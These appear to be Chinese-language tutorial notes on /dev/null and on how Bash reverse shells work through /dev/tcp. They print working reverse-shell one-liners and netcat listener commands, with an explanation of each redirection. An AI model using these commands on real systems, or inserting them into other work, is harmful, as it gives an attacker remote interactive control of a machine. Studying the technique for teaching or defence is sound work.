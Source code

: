 ### /dev/null
特殊文件, 写入的任何东西都会被清空
- 把STDERR重定向到`/dev/null`, 自动删除错误信息
	- `whoami 2> /dev/null`
- 快速移除文件中的数据而不用删除文件
	- `cat /dev/null > test`

## Bash反弹Shell原理
*被控端*主动向*控制端*发起连接请求, 通常被控端由于防火墙限制, 权限不足, 端口被占用等问题, 导致被控端不能正常接收发送过来的数据包
```shell
# 控制端
nc -lvvp 7777

# 被控端
bash -i >& /dev/tcp/192.168.1.10/7777 0>&1
```
- `bash -i` 打开一个交互式的bash shell
- `/dev/tcp/IP/PORT` /dev/tcp是Linux中的一个特殊设备文件(一切解文件), 实际不存在, bash用来实现网络请求的接口, 打开即发起一个socket连接, 读写即在这个socket连接中传输数据

### 通过socket连接通信
- 向`/dev/tcp/IP/PORT`写入内容
```shell
nc -lvvp 6666
echo hello > /dev/tcp/192.168.1.101/6666
```
- 从`/dev/tcp/IP/PORT`读取内容
```shell
nc -lvvp 6666
cat < /dev/tcp/192.168.1.111/6666
```

### 交互式shell
实现控制端和被控端的交互![[Pasted image 20230810005003.png]]![[Pasted image 20230810005019.png]]
### 把被控端的交互shell输出重定向到控制端 
```shell
bash -i > /dev/tcp/192.168.1.101/6666

#获取bash进程ID
ps -elf|grep "bash -i"
# 查看进程文件描述符
ll /proc/2609/fd
```

### 把控制端的输入重定向到被控端的交互式shell
由目标传递的数据作为交互式shell的输入, 命令执行后的结果输出到目标
```shell
bash -i > /dev/tcp/192.168.1.101/6666 0>&1
```

### Bash反弹Shell
```shell
bash -i &> /dev/tcp/192.168.1.101/6666 0>&1
# 等于
bash -i > /dev/tcp/192.168.1.101/6666 0>&1 2>&1
```
`>&`, `&>` 混合输出, 即将标准输出, 错误输出全都重定向到一个位置
`0>&1` 将标准输入的读取对象设置为标准输出的输出对象, 即将标准输入也重定向到目标位置
